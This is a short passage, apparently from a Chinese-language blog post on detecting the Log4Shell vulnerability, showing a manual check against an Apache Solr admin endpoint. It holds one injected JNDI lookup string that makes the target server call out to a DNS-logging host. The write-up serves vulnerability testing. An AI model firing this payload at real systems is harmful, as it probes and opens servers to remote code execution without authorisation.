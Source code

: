 ## 0x03 漏洞检测

### 3.1 手工

```
http://127.0.0.1:8983/solr/admin/cores?_=${jndi:ldap://xxx.dnslog.cn}
```

![](/img/2024-08-27-log4shell/4.png)

![](/img/2024-08-27-log4shell/5.png)
